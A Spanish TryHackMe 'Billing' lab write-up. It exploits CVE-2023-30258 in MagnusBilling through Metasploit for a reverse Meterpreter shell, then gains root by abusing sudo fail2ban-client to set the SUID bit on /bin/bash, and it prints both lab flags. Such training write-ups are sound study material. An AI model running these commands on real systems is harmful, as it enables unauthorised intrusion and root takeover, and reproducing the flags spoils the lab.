

# Billing



Maquinas a utilizar Kali Linux y https://tryhackme.com/room/billing

- IP de la Maquina victima: 10.10.130.193
    
    
    
- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

---

- Hacemos un nmap de la maquina victima
    
    ```bash
    sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.130.193
    ```
    
    
    

- Miramos lo que corre por el puerto 80
    
    
    
    Vemos que lanza un software llamado `MagnusBilling`
    
    <aside>
    💡
    
    MagnusBilling es un software de telecomunicaciones que funciona como softswitch y sistema de facturación para proveedores de servicios VoIP (telefonía IP). Es un sistema open source que permite gestionar y facturar llamadas telefónicas a fijos y móviles, realizar llamadas masivas, gestionar tarjetas telefónicas, DIDs (números de teléfono virtuales), envío de SMS, y cuenta con módulos para tienda de llamadas, devolución de llamada (callback), sistemas IVR (respuesta de voz interactiva), llamadas en espera, entre otros.
    
    </aside>
    
    
    
    Un formulario de login , pero no tenemos ninguna credencial todavía.
    
- Usamos Gobuster para hacer Fuzzing web.
    
    ```bash
    gobuster dir -u http://10.10.130.193/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,md -t 50
    ```
    
    
    

- Miramos el contenido del archivo Readme.md
    
    
    
    Nos muestra la versión del software que utiliza la web `MagnusBilling version 7.x.x` 
    
- Haciendo una búsqueda en internet vemos que esta versión esta asociada a un CVE: `**CVE-2023-30258**`
    
    
    

- Vamos a probar si tenemos algún exploit en metasploit para esta vulnerabilidad. Para ello abrimos Metasploit desde el menú.
    
    
    `search CVE-2023-30258`
    
    
    
    - Escogemos la opción 0 y listamos opciones modulo.
        
        `use 0`
        
        `show options`
        
        
        
    
    - Completamos las opciones que nos hagan faltan
        
        `set RHOSTS 10.10.130.193`
        
        `set SRVHOST 10.21.203.172`
        
        `set LHOST 10.21.203.172`
        
        
        
    
    - Lanzamos el exploit
        
        `run`
        
        
        
        Conseguimos una sesión de metrepreter.
        
    - Lanzamos una shell
        
        `shell`
        
        
        
    
    - Nos movemos hasta la carpeta **/home/magnus** y listamos
        
        `ls`
        
        
        
    - Miramos el contenido del archivo user.txt
        
        `cat user.txt`
        
        
        
        Ya tenemos la primera Flag: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`
        

---

- Vamos a intentar escalar privilegios
    - Probamos con sudo -l
        
        `sudo -l`
        
        
        
        Vemos que el binario fail2ban-client se puede ejecutar como root sin contraseña
        
        Buscando en internet “fail2ban-client exploit” he encontrado la web: [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/](./imagenes/Billing/https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/) que nos muestra el siguiente exploit.
        
        
        
    - Vamos a poner en practica el exploit que nos muestra.
        
        `sudo /usr/bin/fail2ban-client status`
        
        Esto nos mostrara un listado el estado actual del servicio Fail2ban en tu sistema.
        
        escogemos uno. En mi caso **`ast-cli-attc`**
        
        `sudo /usr/bin/fail2ban-client get **ast-cli-attck** actions`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
        sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash”`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5`
        
        `/bin/bash -p`
        
        
        
    - Miramos el ID de nuestro usuario
        
        `id`
        
        
        
        Vemos que tenemos privilegios de root
        
- Nos movemos ala carpeta root
    
    
    
    Vemos que tenemos un archivo root.txt. vamos a ver lo que contiene.
    
    `cat root.txt`
    
    
    
    Nos encontramos ante la segunda Flag: `THM{33ad5b530e71a172648f424ec23fae60}`